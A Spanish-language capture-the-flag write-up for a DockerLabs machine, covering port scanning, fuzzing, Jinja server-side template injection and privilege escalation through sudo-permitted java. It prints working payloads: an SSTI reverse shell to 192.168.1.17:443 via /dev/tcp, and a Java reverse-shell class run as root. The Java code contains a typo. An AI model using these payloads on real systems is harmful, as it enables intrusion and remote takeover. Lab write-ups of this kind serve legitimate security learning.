 # Fase 1- Tanteo

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8aa15be7-b94e-4c29-bd1c-8077346838e3)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **5000/tcp (UPNP):** -
### Puerto 80
Al identificar que el puerto 5000 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Junto con el puerto, esto llevo a una pagina de registro.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/99ea8e18-a399-431d-b9f8-564a8317f448)

# Fase 2- Exploración

#### /console
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/271733c1-fffc-4540-8405-63fe8a9d0fbf)
Realizando fuzzing con Feroxbuster encontré el un /console que nos pide un pin para ingresar.

# Fase 3- Explotación

#### 4?
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ae2ef32e-73a6-42c6-aa66-9d1a15bec91f)
Si probamos inyectar un `{{2 + 2}}` en el campo PinguNombre nos devuelve un `Hello 4!` estamos inyectando codigo.

#### ssti
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/301c238f-3e89-4af3-ab51-6f4361adab58)
Probamos si es vulnerable a SSTI "Server-Side Template Injection" inyectamos este codigo:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

#### Reverse shell
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/90f3df21-7447-4f2b-a17b-19d62728f301)
Enviamos una reverse shell de `PayloadsAllTheThings` pero la modifique para que sea en vez de Python, bash ya que Python me daba problemas. El comando es:
```python
{% for x in ().__class__.__base__.__subclasses__() %} {% if "warning" in x.__name__ %} {{x()._module.__builtins__['__import__']('os').popen('bash -c "bash -i >& /dev/tcp/192.168.1.17/443 0>&1"').read().zfill(417)}} {% endif %} {% endfor %}
```

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/498d1409-0d6f-4a95-9351-29514c6d2a59)
Vemos que el binario que podemos ejecutar como root es java.

#### java
```java
import java.io.*;
import java.net.*;

public class ReverseShell {
       public static void main(String[] args) throws Exception {
           String ip = "192.168.1.17";
           int port = 443;
           rocess p = new ProcessBuilder("/bin/bash", "-c", "exec 5<>/dev/tcp/" + ip + "/" + port + ";cat <&5 | while read line; do $line 2>&5 >&5; done").start();
           p.waitFor();
    } 
} 

```
Como no tenemos ningún archivo para ejecutar ni en gtfobins no nos aparece nada, busque una reverse shell con java y encontré esta.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ee963c42-8f15-4ed7-a546-6d2310c8768b)
La ejecute llamando al binario, y al nombre del archivo y me llego la reverse shell, somos root!


